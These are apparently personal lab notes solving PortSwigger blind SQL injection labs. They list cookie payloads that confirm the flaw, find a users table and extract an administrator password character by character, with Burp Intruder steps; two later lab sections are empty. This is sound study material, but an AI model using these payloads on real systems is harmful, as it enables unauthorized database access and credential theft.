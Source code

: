 <div align="center">
  <h1>-------------------------- SQLi LABS 002 ---------------------------</h1>
</div>

# [CheatSheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Lab 10: Blind SQL injection with conditional responses [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-conditional-responses/sql-injection/blind/lab-conditional-responses#)
- This injection will be used in `Cookie` section in `TrackingID` input field of the page.

```sql
TrackingId=mCKLbQonMlRUp42B' AND '1'='1;  #Returns 'Welcome Back', This boolean condition means the page is vul to Bilnd SQLi
TrackingId=mCKLbQonMlRUp42B' AND '1'='2; #Doesn't Returns 'Welcome Back' 

TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users LIMIT 1)='a;  #Confirming that there is a table called users
TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users where username='administrator')='a; #confirming that there is a user called administrator

TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a #confirming that the password is greater than 1 character in length.
TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users where username='administrator' AND LENGTH(password)>19)='a; #Password is 20 char long
```


### After determining the length of the password, the next step is to `test the character at each position` to determine its value.
- This step involve `Intruder` Module, set the Type: Sniper, Position: $a$, Intruder Setting: Grep-Match 'Welcome Back'
- Injection: `TrackingId=mCKLbQonMlRUp42B' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§;`
- Repeat the same step for every position i.e SUBSTRING(password,2 to 20,1)
- On correct position guessed by payload, it'll flag the `Welcome Back` in result.
- Take the guessed char & note it down.
- ![image](https://github.com/user-attachments/assets/c07e3d8c-e54b-40b1-a268-48a0263e764e)

### Related Concepts: SUBSTRING(string, start_position, length)
```
string: The string from which you want to extract the substring.
start_position: The position in the string to start extracting (1-based index).
length: The number of characters to extract.
```

## Lab 11: Blind SQL injection with conditional errors [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-conditional-errors)
```sql
If there is Error, means the Query is getting processed by Server & We can give conditions to test for the payloads

TrackingId=3K2lIneuWTHL6FqO' Error
TrackingId=3K2lIneuWTHL6FqO'' No Error

'||(SELECT '')||' error
'||(SELECT '' from dual)||' No error (ORacle DB)

TrackingId=3K2lIneuWTHL6FqO'||(SELECT '' from Incorrect_table)||'; Error means the query is getting processed at server end
TrackingId=3K2lIneuWTHL6FqO'||(SELECT '' from users where ROWNUM=1)||'; No error means the `Users` table exists in DB

TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'; Error means the query is getting processed at server end
TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'; Codition True, No Error with this.

TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||';  Error, confirms that there is a user named Administrator
TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||';  Error, confirms that the password Length is > 1

TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN LENGTH(password)>=20 THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||'; Confirms the Length is of 20 characters
```

- Use SUBSTR( string, start_position [, length ]) to check the password length
- Use Intruder's Sniper Attack type to fuzz the password by comparing each & every position from SUBSTR(password,1,1) to SUBSTR(password,20,1)
- Copy each letter from result if recieved Error 500, use the same to login after extracting all 20 letters.

```sql
TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||';  

TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN SUBSTR(password,20,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||';  

hn8u07gig6zkt9947d47

- Now, login with extracted passsword.
```


## Lab 11: Visible error-based SQL injection [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-sql-injection-visible-error-based)

- 


## Lab 12: Blind SQL injection with time delays and information retrieval [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-time-delays/sql-injection/blind/lab-time-delays-info-retrieval)


